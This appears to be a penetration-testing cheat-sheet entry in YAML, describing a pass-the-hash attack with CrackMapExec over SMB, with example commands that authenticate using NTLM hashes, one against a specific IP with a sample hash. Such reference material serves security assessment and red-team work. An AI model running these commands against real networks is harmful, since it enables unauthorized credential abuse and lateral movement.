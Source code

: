 ```yaml
---
title: |
  Pass the hash 
description: |
  "CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks." - https://github.com/byt3bl33d3r/CrackMapExec/wiki. This command will enumerate domain groups, local groups, logged on users, relative identifiers (RIDs), sessions, domain users, SMB shares/permissions, and get the domain password policy. Create a list of targets with SMB Signing disabled (required to relay).

  Other commands:

  	crackmapexec smb <target(s)> -u username -H NTHASH

  	crackmapexec smb 192.168.4.62 --local-auth -u LocalAdmin -H be9d428a7bd9fd16a18048593dc9b5f1

command: |
  crackmapexec smb <target(s)> -u username -H LMHASH:NTHASH
items:
  - Hash
services:
  - SMB
OS:
  - Linux
attack_types:
  - Lateral Movement
references:
  - https://github.com/byt3bl33d3r/CrackMapExec
  - https://github.com/byt3bl33d3r/CrackMapExec/wiki
---
```

